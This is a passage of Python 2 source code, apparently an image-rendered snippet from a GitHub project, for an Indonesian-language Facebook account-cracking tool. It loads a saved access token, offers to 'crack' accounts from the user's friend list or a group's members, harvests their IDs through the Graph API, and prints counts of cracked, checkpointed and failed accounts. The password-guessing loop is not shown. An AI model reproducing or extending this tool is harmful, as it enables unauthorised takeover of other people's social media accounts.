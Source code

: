 
def hasil():
    print
    print 40 * '\x1b[1;97m\xe2\x95\x90'
    for b in berhasil:
        print b

    for c in cekpoint:
        print c

    print
    print '\x1b[31m[x] Gagal \x1b[1;97m--> ' + str(len(gagal))
    keluar()


def super():
    global toket
    os.system('clear')
    try:
        toket = open('login.txt', 'r').read()
    except IOError:
        print '\x1b[1;91m[!] Token tidak ditemukan'
        os.system('rm -rf login.txt')
        time.sleep(1)
        login()

    os.system('clear')
    print logo
    print 40 * '\x1b[1;97m\xe2\x95\x90'
    print '\x1b[1;37;40m1. Crack dari daftar Teman'
    print '\x1b[1;37;40m2. Crack dari member Grup'
    print '\x1b[1;31;40m0. Kembali'
    print
    pilih_super()


def pilih_super():
    peak = raw_input('\x1b[1;91m-\xe2\x96\xba\x1b[1;97m ')
    if peak == '':
        print '\x1b[1;91m[!] Jangan kosong'
        pilih_super()
    else:
        if peak == '1':
            os.system('clear')
            print logo
            print 40 * '\x1b[1;97m\xe2\x95\x90'
            jalan('\x1b[1;91m[+] \x1b[1;92mMengambil id teman \x1b[1;97m...')
            r = requests.get('https://graph.facebook.com/me/friends?access_token=' + toket)
            z = json.loads(r.text)
            for s in z['data']:
                id.append(s['id'])

        else:
            if peak == '2':
                os.system('clear')
                print logo
                print 40 * '\x1b[1;97m\xe2\x95\x90'
                idg = raw_input('\x1b[1;91m[+] \x1b[1;92mID Grup   \x1b[1;91m:\x1b[1;97m ')
                try:
                    r = requests.get('https://graph.facebook.com/group/?id=' + idg + '&access_token=' + toket)
                    asw = json.loads(r.text)
                    print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama grup \x1b[1;91m:\x1b[1;97m ' + asw['name']
                except KeyError:
                    print '\x1b[1;91m[!] Grup tidak ditemukan'
                    raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')
                    super()

